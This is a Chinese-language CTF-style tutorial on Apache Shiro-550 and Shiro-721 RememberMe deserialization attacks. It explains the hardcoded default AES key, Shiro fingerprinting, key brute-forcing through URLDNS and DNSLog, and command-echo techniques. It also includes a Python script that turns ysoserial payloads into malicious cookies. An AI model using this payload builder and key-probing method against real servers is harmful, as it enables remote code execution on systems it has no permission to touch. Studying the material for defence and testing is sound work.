

# 🛡️ Apache Shiro 反序列化底层加解密机制与 550/721 全流程实战

> **历史地位**：Apache Shiro 是 Java 生态中最广泛使用的安全认证与权限管理框架之一。
> 其 `RememberMe` 功能因**“解密后无条件反序列化”**的致命设计，衍生出了统治 Java 攻防赛场多年的两大经典 CVE：**Shiro-550（硬编码默认密钥）** 与 **Shiro-721（Padding Oracle 填充预言机攻击）**。

---

## 0. 基础前置认知与小白扫盲：Apache Shiro 为什么会持续沦陷？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 什么是 RememberMe 功能？
* 当你在很多网站登录时勾选“记住我（Remember Me）”，哪怕你关闭浏览器几天后再打开，网站依然能识别你的身份。
* **Shiro 底层的 RememberMe 数据流转闭环**：
  1. 用户登录成功并勾选 RememberMe；
  2. Shiro 将当前用户的认证对象进行 **Java 原生序列化**，得到一段二进制字节；
  3. Shiro 使用对称加密算法（默认是 **AES-128-CBC**）对这串字节进行加密；
  4. Shiro 将加密后的结果进行 Base64 编码，塞进 HTTP 响应头的 Cookie 中：`Set-Cookie: rememberMe=T3BlbnN...`。
  5. 下一次用户发起请求，Shiro 读出 Cookie 中的 `rememberMe` 值，Base64 解码 -> AES 解密 -> **调用 `readObject()` 原生反序列化还原用户对象！**

---

### 2. 致命漏洞根源：全世界通用的“万能防盗门钥匙”
* **AES 是对称加密**：加密和解密使用的是**完全相同的同一把密钥（Key）**！
* **开源代码的硬编码悲剧**：
  * Shiro 官方在早期版本中，为了让开发者开箱即用，在源码中硬编码了一个默认的 AES 密钥：`kPH+bIxk5D2deZiIxcaaaA==`！
  * 无数开发者在部署业务时根本没有主动修改这个默认密钥。
  * **黑客利用链**：黑客在本地编写一个能够执行系统命令的恶意外挂对象，进行 Java 序列化，然后用这把公开的密钥进行 AES 加密并转为 Base64，塞入 Cookie 发送给目标。目标服务器的 Shiro 以为是合法用户，用默认密钥解密成功后立刻调用反序列化，**黑客在一瞬间直接夺得目标系统的最高执行控制权！**

---

## 一、RememberMe 底层业务流转与漏洞本质

当用户在登录页面勾选“记住我（Remember Me）”时，Shiro 在服务端与客户端之间建立信任凭证的底层流水线如下：



---

## 二、两大核心漏洞成因深度对比

| 漏洞代号 | CVE 编号 | 影响版本 | 漏洞触发前置条件 | 底层根因 |
| :--- | :--- | :--- | :--- | :--- |
| **Shiro-550** | CVE-2016-4437 | Shiro < 1.2.5 | **无需登录**，只要目标使用了默认/弱密钥。 | 官方源码中将 AES 秘钥**硬编码在类变量中**：`kPH+bIxk5D2deZiIxcaaaA==`。攻击者可直接加密任意 Payload。 |
| **Shiro-721** | CVE-2019-12422 | Shiro < 1.4.2 | **需登录**获取一个合法的 `rememberMe` Cookie。 | 开发者虽然自定义了随机 Key，但加密采用 **AES-CBC 模式**，且反序列化异常信息泄露了 Padding 校验结果，可利用 **Padding Oracle** 逐字节推导密文伪造任意数据！ |

---

## 三、Shiro 指纹识别与 Key 探测底层机制

### 1. 指纹特征：`rememberMe=deleteMe`
在任何 HTTP 请求中（如 GET `/`），人为在 Cookie 头部添加 `rememberMe=1`：
* 如果响应头包含：
  ```http
  Set-Cookie: rememberMe=deleteMe; Path=/; ...
  ```
  **100% 确认目标后端部署了 Apache Shiro 框架！**
* **底层原理**：当 Shiro 接收到无法解密的垃圾凭证时，会调用 `onBadRememberMe()` 强制在客户端清除该无效 Cookie。

---

### 2. 爆破 Key 的无误报探测逻辑
市面工具常用的 Key 探测逻辑：
* **方法一（URLDNS 链外带）**：
  * 使用经典 `ysoserial URLDNS` 载荷构造 Java 序列化数据（只发起 DNS 解析，不弹计算器，绝对安全）；
  * 遍历常见 Top 100 默认 Shiro 密钥列表对载荷进行 AES 加密；
  * 如果 DNSLog 平台收到了请求，说明**该 Key 成功被服务端解密并执行了反序列化！**
* **方法二（SimplePrincipalCollection 响应特征法）**：
  * 发送构造好的合法身份对象密文：如果 Key 正确，服务端成功反序列化还原身份，**响应包中不会出现 `deleteMe`**；如果 Key 错误，必然出现 `deleteMe`。

---

## 四、CBC 模式与 GCM 模式（Shiro 1.4.2+）加解密实现

在 Shiro 1.4.2 之后，官方为了彻底防御 Shiro-721 Padding Oracle 攻击，**将默认加密算法从 AES-128-CBC 切换为了带认证标签的 AES-128-GCM 模式**。

### 1. 两种模式的二进制拼接格式差异：
* **AES-128-CBC 结构**：
  $$\text{Payload} = \mathbf{IV}\text{(16字节)} + \mathbf{Ciphertext}\text{(密文)}$$
* **AES-128-GCM 结构**：
  $$\text{Payload} = \mathbf{IV/Nonce}\text{(16字节)} + \mathbf{Ciphertext}\text{(密文)} + \mathbf{Tag}\text{(16字节认证标签)}$$

---

### 2. 武器级 Python 加密脚本（兼容 CBC 与 GCM）

```python
import base64
import os
from Crypto.Cipher import AES

def pad(data):
    """PKCS5/PKCS7 填充算法"""
    pad_len = 16 - (len(data) % 16)
    return data + bytes([pad_len] * pad_len)

def build_shiro_payload(serialized_payload: bytes, key_base64: str, mode: str = "CBC") -> str:
    """
    接收 ysoserial 生成的二进制字节流，返回可直接注入 Cookie 的 Base64 密文字符串
    """
    key = base64.b64decode(key_base64)
    iv = os.urandom(16) # 生成随机 16 字节 IV 初始向量
    
    if mode.upper() == "CBC":
        cipher = AES.new(key, AES.MODE_CBC, iv)
        # CBC 模式需要显式进行 PKCS7 填充
        encrypted_bytes = cipher.encrypt(pad(serialized_payload))
        # 组装格式：IV + 密文
        final_payload = iv + encrypted_bytes
    elif mode.upper() == "GCM":
        cipher = AES.new(key, AES.MODE_GCM, nonce=iv)
        ciphertext, tag = cipher.encrypt_and_digest(serialized_payload)
        # GCM 格式：Nonce + 密文 + Tag
        final_payload = iv + ciphertext + tag
    else:
        raise ValueError("不支持的加密模式")
        
    return base64.b64encode(final_payload).decode('utf-8')

if __name__ == "__main__":
    # 示例测试：读取本地生成的 payload.ser
    with open("payload.ser", "rb") as f:
        data = f.read()
    
    # 经典默认 Key：kPH+bIxk5D2deZiIxcaaaA==
    DEFAULT_KEY = "kPH+bIxk5D2deZiIxcaaaA=="
    cookie_value = build_shiro_payload(data, DEFAULT_KEY, mode="CBC")
    print(f"[+] 构造完成，注入 Cookie:\nrememberMe={cookie_value}")
```

---

## 五、CTF/实战高难痛点：不出网环境下的“命令回显”技术

在大部分 CTF 和内网攻防场景中，目标服务器严禁访问互联网（无法反弹 Shell、无法 curl 外带）。攻击者即使触发了 `Runtime.exec('whoami')`，也看不到命令执行结果！

### 1. 核心破局思路：Tomcat 全局上下文线程回显
利用 Java 反射，在当前线程的线程组（`Thread.currentThread()`）中搜索当前处理 HTTP 请求的 Tomcat 内部工作对象（如 `Http11Processor` 或 `StandardContext`），提取当前的 `HttpServletResponse`，**直接将执行命令得到的结果写入 HTTP 响应体并调用 `flush()` 返回！**

---

## 🔗 相关双向链接
- 上级模块：[[07-反序列化漏洞深度专精]]
- 依赖基础：[[Fastjson反序列化：autotype机制与各版本绕过链]]
- 进阶延伸：[[NodeJS原型链污染底层机制与递归合并漏洞]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
